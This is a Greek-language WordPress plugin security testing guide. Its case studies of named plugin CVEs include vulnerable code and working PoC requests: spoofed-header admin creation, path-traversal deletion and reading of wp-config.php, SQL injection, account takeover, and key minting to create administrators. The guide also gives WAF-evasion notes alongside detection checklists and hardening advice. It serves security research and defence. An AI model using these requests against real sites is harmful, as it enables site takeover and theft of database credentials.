Η κατανόηση του τρόπου με τον οποίο ένα πρόσθετο WordPress εκθέτει λειτουργικότητα είναι απαραίτητη κατά τον έλεγχο της επιφάνειας επίθεσής του. Τα συνήθη σημεία εισόδου συνοψίζονται παρακάτω, ενώ παραδείγματα ευπαθειών αναλύονται στην έρευνα που παρατίθεται ως αναφορά.<sup>[[18]](#references)</sup>

- **`wp_ajax`**

Τα πρόσθετα μπορούν να εκθέτουν server-side functions μέσω AJAX handlers. Αυτά τα callbacks μπορεί να περιέχουν σφάλματα στη λογική, στην authentication ή στην authorization. Ένα επαναλαμβανόμενο λάθος είναι η αντιμετώπιση της κατοχής ενός WordPress nonce ως απόδειξης ότι ο caller έχει permission να εκτελέσει την ενέργεια.

Οι παρακάτω functions μπορούν να χρησιμοποιηθούν για να εκτεθεί μια function σε ένα plugin:

```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```

**Η καταχώριση του hook `wp_ajax_nopriv_` καθιστά το callback προσβάσιμο σε μη πιστοποιημένους χρήστες.**

> [!CAUTION]
> Η `wp_verify_nonce()` επικυρώνει ένα χρονικά περιορισμένο CSRF token που σχετίζεται με μια ενέργεια και το πλαίσιο χρήστη· **δεν** εξουσιοδοτεί την ενέργεια ούτε αποδεικνύει απλώς ότι ένας χρήστης έχει συγκεκριμένο ρόλο. Συνδυάστε την επικύρωση nonce με έναν κατάλληλο έλεγχο δικαιωμάτων, όπως το `current_user_can()`.<sup>[[27]](#references)</sup>

- **REST API**

Τα plugins μπορούν επίσης να εκθέσουν συναρτήσεις μέσω του REST API καλώντας τη `register_rest_route()`:

```php
register_rest_route(
    $this->namespace, '/get/', array(
        'methods' => WP_REST_Server::READABLE,
        'callback' => array($this, 'getData'),
        'permission_callback' => '__return_true'
    )
);
```

Το `permission_callback` είναι ένα callback σε συνάρτηση που ελέγχει αν ένας συγκεκριμένος χρήστης έχει εξουσιοδότηση να καλέσει τη μέθοδο API.

**Αν χρησιμοποιείται η ενσωματωμένη συνάρτηση `__return_true`, ο έλεγχος δικαιωμάτων χρήστη παραλείπεται.**

- **Άμεση πρόσβαση στο αρχείο php**

Το WordPress χρησιμοποιεί PHP, και η διαμόρφωση του web server συχνά επιτρέπει την άμεση πρόσβαση σε αρχεία μέσα σε καταλόγους plugin. Επομένως, ένα αρχείο plugin που εκτελεί ευαίσθητες ενέργειες όταν καλείται απευθείας, χωρίς να φορτώνει τους μηχανισμούς εξουσιοδότησης του WordPress ή να απορρίπτει την άμεση πρόσβαση, ενδέχεται να εκθέτει αυτήν τη λειτουργικότητα σε μη αυθεντικοποιημένους χρήστες.

### Trusted-header REST impersonation (WooCommerce Payments ≤ 5.6.1)

Ορισμένα plugin υλοποιούν συντομεύσεις «trusted header» για εσωτερικές διασυνδέσεις ή reverse proxies και στη συνέχεια χρησιμοποιούν αυτήν την κεφαλίδα για να ορίσουν το τρέχον πλαίσιο χρήστη για αιτήματα REST. Αν η κεφαλίδα δεν είναι κρυπτογραφικά συνδεδεμένη με το αίτημα από κάποιο upstream στοιχείο, ένας επιτιθέμενος μπορεί να την παραποιήσει και να προσπελάσει προνομιούχες διαδρομές REST ως διαχειριστής.<sup>[[6]](#references)[[7]](#references)</sup>

- Επίπτωση: κλιμάκωση προνομίων χωρίς αυθεντικοποίηση σε διαχειριστή, με τη δημιουργία νέου διαχειριστή μέσω της βασικής διαδρομής REST χρηστών.
- Παράδειγμα κεφαλίδας: `X-Wcpay-Platform-Checkout-User: 1` (επιβάλλει το user ID 1, συνήθως τον πρώτο λογαριασμό διαχειριστή).
- Διαδρομή που αξιοποιείται: `POST /wp-json/wp/v2/users` με πίνακα ρόλων αυξημένων προνομίων.

PoC

```http
POST /wp-json/wp/v2/users HTTP/1.1
Host: <WP HOST>
User-Agent: Mozilla/5.0
Accept: application/json
Content-Type: application/json
X-Wcpay-Platform-Checkout-User: 1
Content-Length: 114

{"username": "honeypot", "email": "wafdemo@patch.stack", "password": "demo", "roles": ["administrator"]}
```

Γιατί λειτουργεί

- Το plugin αντιστοιχίζει μια κεφαλίδα που ελέγχεται από τον client με την κατάσταση authentication και παραλείπει τους ελέγχους capabilities.
- Το WordPress core ελέγχει τις κατάλληλες capabilities δημιουργίας χρηστών για αυτό το route· το ευάλωτο plugin παρακάμπτει το προβλεπόμενο όριο authentication ορίζοντας απευθείας το πλαίσιο του τρέχοντος χρήστη από την κεφαλίδα.

Ενδείξεις επιτυχίας

- HTTP 201 με JSON body που περιγράφει τον χρήστη που δημιουργήθηκε.
- Ένας νέος χρήστης admin εμφανίζεται στο `wp-admin/users.php`.

Λίστα ελέγχου εντοπισμού

- Αναζητήστε με grep τα `getallheaders()`, `$_SERVER['HTTP_...']` ή SDK προμηθευτών που διαβάζουν custom κεφαλίδες για να ορίσουν το πλαίσιο χρήστη (π.χ. `wp_set_current_user()`, `wp_set_auth_cookie()`).
- Ελέγξτε τις δηλώσεις REST για προνομιούχα callbacks χωρίς ισχυρούς ελέγχους `permission_callback`, που βασίζονται αντί γι’ αυτό σε κεφαλίδες αιτημάτων.
- Αναζητήστε χρήσεις βασικών συναρτήσεων διαχείρισης χρηστών (`wp_insert_user`, `wp_create_user`) μέσα σε REST handlers, οι οποίες ελέγχονται μόνο μέσω τιμών κεφαλίδων.

### Μη εξουσιοδοτημένη αυθαίρετη διαγραφή αρχείων μέσω wp_ajax_nopriv (Litho Theme <= 3.0)

Τα WordPress themes και plugins συχνά εκθέτουν AJAX handlers μέσω των hooks `wp_ajax_` και `wp_ajax_nopriv_`. Όταν χρησιμοποιείται η παραλλαγή **_nopriv_**, το **callback είναι προσβάσιμο από μη εξουσιοδοτημένους επισκέπτες**, επομένως κάθε ευαίσθητη ενέργεια πρέπει επιπλέον να εφαρμόζει:

1. **Έλεγχο capability** (π.χ. `current_user_can()` ή τουλάχιστον `is_user_logged_in()`), και
2. **CSRF nonce** που επικυρώνεται με `check_ajax_referer()` / `wp_verify_nonce()`, και
3. **Αυστηρή απολύμανση / επικύρωση εισόδου**.

Το multipurpose theme Litho (< 3.1) παρέλειψε αυτούς τους 3 ελέγχους στη λειτουργία *Remove Font Family* και κατέληξε να περιλαμβάνει τον ακόλουθο κώδικα (απλοποιημένο):<sup>[[1]](#references)</sup>

```php
function litho_remove_font_family_action_data() {
    if ( empty( $_POST['fontfamily'] ) ) {
        return;
    }
    $fontfamily = str_replace( ' ', '-', $_POST['fontfamily'] );
    $upload_dir = wp_upload_dir();
    $srcdir  = untrailingslashit( wp_normalize_path( $upload_dir['basedir'] ) ) . '/litho-fonts/' . $fontfamily;
    $filesystem = Litho_filesystem::init_filesystem();

    if ( file_exists( $srcdir ) ) {
        $filesystem->delete( $srcdir, FS_CHMOD_DIR );
    }
    die();
}
add_action( 'wp_ajax_litho_remove_font_family_action_data',        'litho_remove_font_family_action_data' );
add_action( 'wp_ajax_nopriv_litho_remove_font_family_action_data', 'litho_remove_font_family_action_data' );
```

Προβλήματα που εισάγει αυτό το snippet:

* **Πρόσβαση χωρίς έλεγχο ταυτότητας** – έχει καταχωριστεί το hook `wp_ajax_nopriv_`.
* **Χωρίς έλεγχο nonce / capability** – οποιοσδήποτε επισκέπτης μπορεί να καλέσει το endpoint.
* **Χωρίς sanitisation της διαδρομής** – η συμβολοσειρά `fontfamily`, που ελέγχεται από τον χρήστη, συνενώνεται με μια διαδρομή συστήματος αρχείων χωρίς φιλτράρισμα, επιτρέποντας κλασικό `../../` traversal.

#### Exploitation

Το traversal επιτρέπει σε έναν επιτιθέμενο να βγει από τον προβλεπόμενο κατάλογο `litho-fonts` και να διαγράψει αρχεία στα οποία έχει δικαίωμα εγγραφής ο λογαριασμός PHP/web server. Σε μια τυπική διάταξη, το ακόλουθο αίτημα στοχεύει το `wp-config.php`:

```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
     -d 'action=litho_remove_font_family_action_data' \
     -d 'fontfamily=../../../wp-config.php'
```

Από το `<wp-root>/wp-content/uploads/litho-fonts/`, τρεις ακολουθίες `../` οδηγούν στη ρίζα του WordPress. Το απαιτούμενο βάθος εξαρτάται από τη διαμορφωμένη διαδρομή upload. Η διαγραφή του `wp-config.php` προκαλεί διακοπή λειτουργίας και ενδέχεται να εμφανίσει τη ροή επαναδιαμόρφωσης/εγκατάστασης· η μετατροπή αυτού σε takeover εξαρτάται επιπλέον από τα δικαιώματα του συστήματος αρχείων και από το αν ο επιτιθέμενος μπορεί να παράσχει μια προσβάσιμη διαμόρφωση βάσης δεδομένων.

Άλλοι στόχοι με σημαντικό αντίκτυπο είναι αρχεία `.php` plugin/theme (για να απενεργοποιηθούν security plugins) ή κανόνες `.htaccess`.

#### Λίστα ελέγχου ανίχνευσης

* Οποιοδήποτε callback `add_action( 'wp_ajax_nopriv_...')` που καλεί βοηθητικές συναρτήσεις συστήματος αρχείων (`copy()`, `unlink()`, `$wp_filesystem->delete()` κ.λπ.).
* Συνένωση μη καθαρισμένων δεδομένων εισόδου χρήστη σε διαδρομές (αναζητήστε `$_POST`, `$_GET`, `$_REQUEST`).
* Απουσία των `check_ajax_referer()` και `current_user_can()`/`is_user_logged_in()`.

---

### Privilege escalation μέσω επαναφοράς παρωχημένων ρόλων και ελλιπούς εξουσιοδότησης (ASE "View Admin as Role")

Πολλά plugin υλοποιούν μια λειτουργία «προβολής ως ρόλου» ή προσωρινής εναλλαγής ρόλου, αποθηκεύοντας τον αρχικό ρόλο ή τους αρχικούς ρόλους στα user meta, ώστε να μπορούν να αποκατασταθούν αργότερα. Αν η διαδικασία επαναφοράς βασίζεται μόνο σε παραμέτρους αιτήματος (π.χ. `$_REQUEST['reset-for']`) και σε μια λίστα που διατηρεί το plugin, χωρίς έλεγχο capabilities και έγκυρου nonce, αυτό οδηγεί σε vertical privilege escalation.

Ένα πραγματικό παράδειγμα εντοπίστηκε στο plugin Admin and Site Enhancements (ASE) (≤ 7.6.2.1). Ο κλάδος επαναφοράς αποκαθιστούσε ρόλους με βάση το `reset-for=<username>`, εφόσον το όνομα χρήστη εμφανιζόταν στον εσωτερικό πίνακα `$options['viewing_admin_as_role_are']`, αλλά δεν πραγματοποιούσε ούτε έλεγχο `current_user_can()` ούτε επαλήθευση nonce πριν αφαιρέσει τους τρέχοντες ρόλους και προσθέσει ξανά τους αποθηκευμένους ρόλους από τα user meta `_asenha_view_admin_as_original_roles`:<sup>[[3]](#references)[[4]](#references)</sup>

```php
// Simplified vulnerable pattern
if ( isset( $_REQUEST['reset-for'] ) ) {
    $reset_for_username = sanitize_text_field( $_REQUEST['reset-for'] );
    $usernames = get_option( ASENHA_SLUG_U, [] )['viewing_admin_as_role_are'] ?? [];

    if ( in_array( $reset_for_username, $usernames, true ) ) {
        $u = get_user_by( 'login', $reset_for_username );
        foreach ( $u->roles as $role ) { $u->remove_role( $role ); }
        $orig = (array) get_user_meta( $u->ID, '_asenha_view_admin_as_original_roles', true );
        foreach ( $orig as $r ) { $u->add_role( $r ); }
    }
}
```

Γιατί είναι ευάλωτο

- Εμπιστεύεται το `$_REQUEST['reset-for']` και μια επιλογή του plugin χωρίς εξουσιοδότηση από την πλευρά του server.
- Αν ένας χρήστης είχε προηγουμένως αποθηκευμένα αυξημένα προνόμια στο `_asenha_view_admin_as_original_roles` και υποβαθμίστηκε, μπορεί να τα επαναφέρει καλώντας τη διαδρομή reset.
- Σε ορισμένες εγκαταστάσεις, οποιοσδήποτε αυθεντικοποιημένος χρήστης μπορεί να προκαλέσει reset για άλλο όνομα χρήστη που υπάρχει ακόμη στο `viewing_admin_as_role_are` (ελαττωματική εξουσιοδότηση).

Exploitation (παράδειγμα)

```bash
# While logged in as the downgraded user (or any auth user able to trigger the code path),
# hit any route that executes the role-switcher logic and include the reset parameter.
# The plugin uses $_REQUEST, so GET or POST works. The exact route depends on the plugin hooks.
curl -s -k -b 'wordpress_logged_in=...' \
  'https://victim.example/wp-admin/?reset-for=<your_username>'
```

Σε ευάλωτες εκδόσεις, αυτό αφαιρεί τους τρέχοντες ρόλους και επαναφέρει τους αποθηκευμένους αρχικούς ρόλους (π.χ., `administrator`), κλιμακώνοντας ουσιαστικά τα προνόμια.

Λίστα ελέγχου ανίχνευσης

- Αναζητήστε λειτουργίες εναλλαγής ρόλων που αποθηκεύουν τους «αρχικούς ρόλους» στα user meta (π.χ., `_asenha_view_admin_as_original_roles`).
- Εντοπίστε διαδρομές επαναφοράς που:
  - Διαβάζουν usernames από τα `$_REQUEST` / `$_GET` / `$_POST`.
  - Τροποποιούν ρόλους μέσω των `add_role()` / `remove_role()` χωρίς `current_user_can()` και `wp_verify_nonce()` / `check_admin_referer()`.
  - Εγκρίνουν ενέργειες βάσει ενός πίνακα επιλογών plugin (π.χ., `viewing_admin_as_role_are`) αντί για τις δυνατότητες του actor.

---

### Κλιμάκωση προνομίων χωρίς authentication μέσω εναλλαγής χρηστών που εμπιστεύεται cookie στο public init (Service Finder “sf-booking”)

Ορισμένα plugins συνδέουν βοηθητικές συναρτήσεις εναλλαγής χρηστών στο public `init` hook και αντλούν την ταυτότητα από ένα cookie που ελέγχεται από τον client. Αν ο κώδικας καλέσει τη `wp_set_auth_cookie()` χωρίς να επαληθεύσει το authentication, τα capabilities και ένα έγκυρο nonce, οποιοσδήποτε μη πιστοποιημένος επισκέπτης μπορεί να συνδεθεί ως αυθαίρετο user ID.

Τυπικό ευάλωτο μοτίβο (απλοποιημένο από το Service Finder Bookings ≤ 6.1):<sup>[[8]](#references)[[9]](#references)</sup>

```php
function service_finder_submit_user_form(){
    if ( isset($_GET['switch_user']) && is_numeric($_GET['switch_user']) ) {
        $user_id = intval( sanitize_text_field($_GET['switch_user']) );
        service_finder_switch_user($user_id);
    }
    if ( isset($_GET['switch_back']) ) {
        service_finder_switch_back();
    }
}
add_action('init', 'service_finder_submit_user_form');

function service_finder_switch_back() {
    if ( isset($_COOKIE['original_user_id']) ) {
        $uid = intval($_COOKIE['original_user_id']);
        if ( get_userdata($uid) ) {
            wp_set_current_user($uid);
            wp_set_auth_cookie($uid);  // 🔥 sets auth for attacker-chosen UID
            do_action('wp_login', get_userdata($uid)->user_login, get_userdata($uid));
            setcookie('original_user_id', '', time() - 3600, '/');
            wp_redirect( admin_url('admin.php?page=candidates') );
            exit;
        }
        wp_die('Original user not found.');
    }
    wp_die('No original user found to switch back to.');
}
```

Γιατί είναι εκμεταλλεύσιμο

- Το δημόσιο hook `init` καθιστά τον handler προσβάσιμο σε μη πιστοποιημένους χρήστες (χωρίς έλεγχο `is_user_logged_in()`).
- Η ταυτότητα προκύπτει από ένα cookie που μπορεί να τροποποιήσει ο client (`original_user_id`).
- Η άμεση κλήση της `wp_set_auth_cookie($uid)` συνδέει τον αιτούντα ως αυτόν τον χρήστη, χωρίς ελέγχους capability/nonce.

Exploitation (χωρίς πιστοποίηση)

```http
GET /?switch_back=1 HTTP/1.1
Host: victim.example
Cookie: original_user_id=1
User-Agent: PoC
Connection: close
```

---

### Παράγοντες WAF για CVE του WordPress/plugin

Τα γενικά WAF στα edge/server είναι ρυθμισμένα για ευρέως γνωστά μοτίβα (SQLi, XSS, LFI). Πολλά σοβαρά κενά στο WordPress/plugin αφορούν λογική της εφαρμογής ή σφάλματα ελέγχου ταυτότητας, τα οποία μοιάζουν με κανονική κίνηση, εκτός αν η μηχανή κατανοεί τα routes του WordPress και τη σημασιολογία των plugin.<sup>[[5]](#references)[[11]](#references)</sup>

Σημειώσεις επίθεσης

- Στοχεύστε endpoints συγκεκριμένων plugin με καθαρά payloads: `admin-ajax.php?action=...`, `wp-json/<namespace>/<route>`, custom file handlers, shortcodes.
- Δοκιμάστε πρώτα μη πιστοποιημένες διαδρομές (AJAX `nopriv`, REST με επιτρεπτικό `permission_callback`, δημόσια shortcodes). Τα προεπιλεγμένα payloads συχνά επιτυγχάνουν χωρίς obfuscation.
- Συνήθεις περιπτώσεις υψηλού αντίκτυπου: κλιμάκωση προνομίων (broken access control), αυθαίρετο ανέβασμα/κατέβασμα αρχείων, LFI, open redirect.

Αμυντικές σημειώσεις

- Μην βασίζεστε σε γενικές υπογραφές WAF για την προστασία από CVE των plugin. Εφαρμόστε virtual patches ειδικά για την εφαρμογή και την ευπάθεια ή κάντε γρήγορα ενημερώσεις.
- Προτιμήστε ελέγχους θετικής ασφάλειας στον κώδικα (capabilities, nonces, αυστηρή επικύρωση εισόδου) αντί για αρνητικά φίλτρα regex.

## Προστασία WordPress

### Τακτικές ενημερώσεις

Διατηρείτε τον πυρήνα του WordPress, τα plugin και τα themes ενημερωμένα, με staging και αντίγραφα ασφαλείας κατάλληλα για την εγκατάσταση. Οι ενημερώσεις του πυρήνα μπορούν να ρυθμιστούν στο `wp-config.php`:

```bash
define( 'WP_AUTO_UPDATE_CORE', true );
```

Τα φίλτρα ενημερώσεων των plugin και theme ανήκουν σε ένα plugin—κατά προτίμηση σε ένα must-use plugin—και όχι απευθείας στο `wp-config.php`, επειδή το WordPress δεν έχει φορτωθεί πλήρως εκεί:<sup>[[28]](#references)</sup>

```php
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```

Να εγκαθιστάτε μόνο αξιόπιστα και συντηρούμενα WordPress plugins και themes και να αφαιρείτε τα στοιχεία που δεν χρειάζονται πλέον.<sup>[[29]](#references)</sup>

### Plugins ασφαλείας

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Άλλες συστάσεις**

- Μετονομάστε ή αφαιρέστε έναν προβλέψιμο παλιό λογαριασμό **admin**, αφού βεβαιωθείτε ότι υπάρχει άλλος administrator· η αλλαγή του username από μόνη της δεν αποτελεί κύρια άμυνα.
- Χρησιμοποιείτε **ισχυρούς, μοναδικούς κωδικούς πρόσβασης** και **2FA**.
- Ελέγχετε περιοδικά τους χρήστες και τις δυνατότητές τους.
- Περιορίστε τον ρυθμό των προσπαθειών σύνδεσης και παρακολουθείτε τις προσπάθειες εικασίας κωδικών πρόσβασης.
- Περιορίστε την πρόσβαση στα `/wp-login.php` και στις ευαίσθητες διαδρομές του `/wp-admin/` βάσει δικτύου ή μέσω πρόσθετου επιπέδου authentication, όπου αυτό είναι λειτουργικά κατάλληλο. Μην μετονομάζετε ένα ανύπαρκτο βασικό αρχείο `wp-admin.php` και λάβετε υπόψη τα απαιτούμενα δημόσια endpoints, όπως το `wp-admin/admin-ajax.php`.<sup>[[29]](#references)</sup>

### Unauthenticated SQL Injection μέσω ανεπαρκούς validation (WP Job Portal <= 2.3.2)

Το recruitment plugin WP Job Portal εξέθετε ένα task **savecategory**, το οποίο τελικά εκτελεί τον ακόλουθο ευάλωτο κώδικα μέσα στη `modules/category/model.php::validateFormData()`:<sup>[[2]](#references)</sup>

```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
    $inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
        . wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```

Προβλήματα που εισάγει αυτό το snippet:

1. **Μη καθαρισμένη είσοδος χρήστη** – το `parentid` προέρχεται απευθείας από το HTTP request.
2. **Συνένωση συμβολοσειρών μέσα στη συνθήκη WHERE** – δεν χρησιμοποιούνται `is_numeric()` / `esc_sql()` / prepared statement.
3. **Προσβάσιμο χωρίς authentication** – παρόλο που η ενέργεια εκτελείται μέσω του `admin-post.php`, ο μόνος έλεγχος που υπάρχει είναι ένα **CSRF nonce** (`wp_verify_nonce()`), το οποίο μπορεί να ανακτήσει οποιοσδήποτε επισκέπτης από μια δημόσια σελίδα που περιέχει το shortcode `[wpjobportal_my_resumes]`.

#### Exploitation

1. Πάρε ένα νέο nonce:
   ```bash
   curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
   ```
2. Εισαγάγετε αυθαίρετο SQL κάνοντας κατάχρηση του `parentid`:
   ```bash
   curl -X POST https://victim.com/wp-admin/admin-post.php \
        -d 'task=savecategory' \
        -d '_wpnonce=<nonce>' \
        -d 'parentid=0 OR 1=1-- -' \
        -d 'cat_title=pwn' -d 'id='
   ```
   Επιβεβαιώστε το injection μέσω της συμπεριφοράς απόκρισης που τεκμηριώνεται για την επηρεαζόμενη έκδοση (για παράδειγμα, με ελεγχόμενη διαφορά boolean ή χρονική διαφορά)· η συγκεκριμένη διαδρομή query δεν εμφανίζει εγγενώς αυθαίρετες επιλεγμένες στήλες.

### Μη αυθεντικοποιημένη αυθαίρετη λήψη αρχείων / Path Traversal (WP Job Portal <= 2.3.2)

Μια άλλη εργασία, **downloadcustomfile**, επέτρεπε στους επισκέπτες να κατεβάσουν **οποιοδήποτε αρχείο στον δίσκο** μέσω path traversal. Το ευάλωτο sink βρίσκεται στο `modules/customfield/model.php::downloadCustomUploadedFile()`:<sup>[[2]](#references)</sup>

```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```

`$file_name` ελέγχεται από τον επιτιθέμενο και συνενώνεται **χωρίς εξυγίανση**. Και πάλι, η μόνη δικλείδα είναι ένα **CSRF nonce**, το οποίο μπορεί να ανακτηθεί από τη σελίδα βιογραφικού.

#### Εκμετάλλευση

```bash
curl -G https://victim.com/wp-admin/admin-post.php \
     --data-urlencode 'task=downloadcustomfile' \
     --data-urlencode '_wpnonce=<nonce>' \
     --data-urlencode 'upload_for=resume' \
     --data-urlencode 'entity_id=1' \
     --data-urlencode 'file_name=../../../wp-config.php'
```
Ο server επιστρέφει τα περιεχόμενα του `wp-config.php`, διαρρέοντας DB credentials και auth keys.

## Κατάληψη λογαριασμού χωρίς authentication μέσω fallback του Social Login AJAX (Jobmonster Theme <= 4.7.9)

Πολλά themes/plugins διαθέτουν βοηθητικά στοιχεία «social login» που είναι προσβάσιμα μέσω του admin-ajax.php. Αν ένα μη αυθεντικοποιημένο AJAX action (wp_ajax_nopriv_...) εμπιστεύεται identifiers που παρέχει ο client όταν λείπουν δεδομένα από τον provider και στη συνέχεια καλεί το wp_set_auth_cookie(), αυτό οδηγεί σε πλήρη παράκαμψη authentication.<sup>[[10]](#references)</sup>

Τυπικό προβληματικό μοτίβο (απλοποιημένο)

```php
public function check_login() {
    // ... request parsing ...
    switch ($_POST['using']) {
        case 'fb':     /* set $user_email from verified Facebook token */ break;
        case 'google': /* set $user_email from verified Google token   */ break;
        // other providers ...
        default: /* unsupported/missing provider – execution continues */ break;
    }

    // FALLBACK: trust POSTed "id" as email if provider data missing
    $user_email = !empty($user_email)
        ? $user_email
        : (!empty($_POST['id']) ? esc_attr($_POST['id']) : '');

    if (empty($user_email)) {
        wp_send_json(['status' => 'not_user']);
    }

    $user = get_user_by('email', $user_email);
    if ($user) {
        wp_set_auth_cookie($user->ID, true); // 🔥 logs requester in as that user
        wp_send_json(['status' => 'success', 'message' => 'Login successfully.']);
    }
    wp_send_json(['status' => 'not_user']);
}
// add_action('wp_ajax_nopriv_<social_login_action>', [$this, 'check_login']);
```

Γιατί είναι εκμεταλλεύσιμο

- Δυνατότητα πρόσβασης χωρίς authentication μέσω του admin-ajax.php (ενέργεια wp_ajax_nopriv_…).
- Δεν υπάρχουν έλεγχοι nonce/capability πριν από την αλλαγή κατάστασης.
- Δεν γίνεται επαλήθευση του παρόχου OAuth/OpenID· ο προεπιλεγμένος κλάδος αποδέχεται δεδομένα εισόδου από τον επιτιθέμενο.
- Το get_user_by('email', $_POST['id']) ακολουθείται από το wp_set_auth_cookie($uid), το οποίο πιστοποιεί το αίτημα ως οποιαδήποτε υπάρχουσα διεύθυνση email.

Εκμετάλλευση (χωρίς authentication)

- Προαπαιτούμενα: ο επιτιθέμενος μπορεί να αποκτήσει πρόσβαση στο /wp-admin/admin-ajax.php και γνωρίζει ή μαντεύει έγκυρη διεύθυνση email χρήστη.
- Ορίστε το provider σε μη υποστηριζόμενη τιμή (ή παραλείψτε το) ώστε να χρησιμοποιηθεί ο προεπιλεγμένος κλάδος και δώστε id=<victim_email>.

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: victim.tld
Content-Type: application/x-www-form-urlencoded

action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com
```

```bash
curl -i -s -X POST https://victim.tld/wp-admin/admin-ajax.php \
  -d "action=<vulnerable_social_login_action>&using=bogus&id=admin%40example.com"
```

Αναμενόμενες ενδείξεις επιτυχίας

- HTTP 200 με JSON body όπως {"status":"success","message":"Login successfully."}.
- Set-Cookie: wordpress_logged_in_* για τον χρήστη-θύμα· τα επόμενα αιτήματα είναι authenticated.

Εύρεση του ονόματος του action

- Ελέγξτε το theme/plugin για καταχωρίσεις add_action('wp_ajax_nopriv_...', '...') στον κώδικα social login (π.χ., framework/add-ons/social-login/class-social-login.php).
- Κάντε grep για wp_set_auth_cookie(), get_user_by('email', ...) μέσα σε AJAX handlers.

Λίστα ελέγχου ανίχνευσης

- Web logs που δείχνουν unauthenticated αιτήματα `POST` προς το `/wp-admin/admin-ajax.php` με το action του social login και `id=<email>`.
- Απαντήσεις 200 με το success JSON, αμέσως πριν από authenticated traffic από την ίδια IP/User-Agent.

Σκλήρυνση

- Μην αντλείτε την ταυτότητα από είσοδο του client. Αποδέχεστε μόνο emails/IDs που προέρχονται από επικυρωμένο provider token/ID.
- Απαιτείτε CSRF nonces και ελέγχους capabilities ακόμη και για login helpers· αποφεύγετε την καταχώριση `wp_ajax_nopriv_` εκτός αν είναι απολύτως απαραίτητη.
- Επικυρώνετε και επαληθεύετε τις αποκρίσεις OAuth/OIDC από την πλευρά του server· απορρίπτετε απόντες/μη έγκυρους providers (χωρίς fallback στο POST id).
- Εξετάστε το ενδεχόμενο προσωρινής απενεργοποίησης του social login ή εφαρμογής virtual patch στο edge (block του ευάλωτου action) μέχρι να διορθωθεί.

Συμπεριφορά μετά το patch (Jobmonster 4.8.0)

- Αφαιρέθηκε το μη ασφαλές fallback από το $_POST['id']· το $user_email πρέπει να προέρχεται από επαληθευμένα provider branches στο switch($_POST['using']).

## Κλιμάκωση προνομίων χωρίς authentication μέσω έκδοσης REST token/key με προβλέψιμη ταυτότητα (OttoKit/SureTriggers ≤ 1.0.82)

Ορισμένα plugins εκθέτουν REST endpoints που εκδίδουν επαναχρησιμοποιήσιμα «connection keys» ή tokens χωρίς να επαληθεύουν τα capabilities του καλούντος. Αν το route κάνει authentication μόνο βάσει ενός χαρακτηριστικού που μπορεί να προβλεφθεί (π.χ. username) και δεν συνδέει το key με χρήστη/session μέσω ελέγχων capabilities, οποιοσδήποτε unauthenticated attacker μπορεί να εκδώσει ένα key και να εκτελέσει privileged actions (δημιουργία admin λογαριασμού, ενέργειες plugin → RCE).<sup>[[12]](#references)</sup>

- Ευάλωτο route (παράδειγμα): sure-triggers/v1/connection/create-wp-connection
- Αδυναμία: αποδέχεται ένα username και εκδίδει connection key χωρίς current_user_can() ή αυστηρό permission_callback
- Επίπτωση: πλήρης κατάληψη μέσω σύνδεσης του key που εκδόθηκε με εσωτερικές privileged actions

PoC – έκδοση και χρήση ενός connection key

```bash
# 1) Obtain key (unauthenticated). Exact payload varies per plugin
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/connection/create-wp-connection" \
  -H 'Content-Type: application/json' \
  --data '{"username":"admin"}'
# → {"key":"<conn_key>", ...}

# 2) Call privileged plugin action using the minted key (namespace/route vary per plugin)
curl -s -X POST "https://victim.tld/wp-json/sure-triggers/v1/users" \
  -H 'Content-Type: application/json' \
  -H 'X-Connection-Key: <conn_key>' \
  --data '{"username":"pwn","email":"p@t.ld","password":"p@ss","role":"administrator"}'
```

Γιατί είναι εκμεταλλεύσιμο
- Ευαίσθητο REST route που προστατεύεται μόνο από απόδειξη ταυτότητας χαμηλής εντροπίας (username) ή από ανύπαρκτο `permission_callback`
- Δεν επιβάλλεται κανένας έλεγχος capability· το minted key γίνεται αποδεκτό ως καθολικό bypass

Λίστα ελέγχου εντοπισμού
- Χρησιμοποιήστε grep στον κώδικα του plugin για `register_rest_route(..., [ 'permission_callback' => '__return_true' ])`
- Ελέγξτε για routes που εκδίδουν tokens/keys βάσει ταυτότητας που παρέχεται στο request (username/email), χωρίς να τα συνδέουν με authenticated user ή capability
- Αναζητήστε επόμενα routes που αποδέχονται το minted token/key χωρίς ελέγχους capability από την πλευρά του server

Ενίσχυση ασφάλειας
- Για κάθε privileged REST route: απαιτήστε `permission_callback` που επιβάλλει `current_user_can()` για το απαιτούμενο capability
- Μην εκδίδετε long-lived keys βάσει ταυτότητας που παρέχεται από τον client· αν χρειάζεται, εκδώστε short-lived, user-bound tokens μετά το authentication και επανελέγχετε τα capabilities κατά τη χρήση
- Επικυρώστε το user context του caller (`wp_set_current_user` δεν αρκεί από μόνο του) και απορρίψτε requests όταν ισχύει `!is_user_logged_in() || !current_user_can(<cap>)`.

---

## Κακή χρήση του Nonce gate → μη εξουσιοδοτημένη εγκατάσταση αυθαίρετου plugin (FunnelKit Automations ≤ 3.5.3)

Τα nonces αποτρέπουν το CSRF, όχι την εξουσιοδότηση. Αν ο κώδικας αντιμετωπίζει την επιτυχή επαλήθευση ενός nonce ως πράσινο φως και στη συνέχεια παραλείπει τους ελέγχους capability για privileged ενέργειες (π.χ. εγκατάσταση/ενεργοποίηση plugins), μη εξουσιοδοτημένοι attackers μπορούν να ικανοποιήσουν μια αδύναμη απαίτηση nonce και να φτάσουν σε RCE εγκαθιστώντας ένα backdoored ή ευάλωτο plugin.<sup>[[13]](#references)</sup>

- Ευάλωτο path: plugin/install_and_activate
